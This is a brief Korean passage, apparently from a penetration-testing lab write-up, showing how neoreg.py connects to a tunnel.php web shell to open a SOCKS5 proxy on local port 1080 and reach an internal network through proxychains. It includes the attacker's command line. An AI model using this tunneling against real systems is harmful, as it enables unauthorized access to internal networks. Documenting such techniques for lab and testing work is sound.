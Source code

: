 이후 neoreg.py를 통해 SOCK5 통신을 열면 127.0.0.1:1080이 활성화되는 것을 확인할 수 있습니다.

```bash
# attacker
$ python3 neoreg.py -k password -u http://pentest.yoobi.kr:10501/tunnel.php
```

![Untitled](/assets/2024-03-20//Untitled%2020.png)

활성된 SOCK5 포트를 사용한 proxychains을 통해 내부망 접근이 가능합니다.
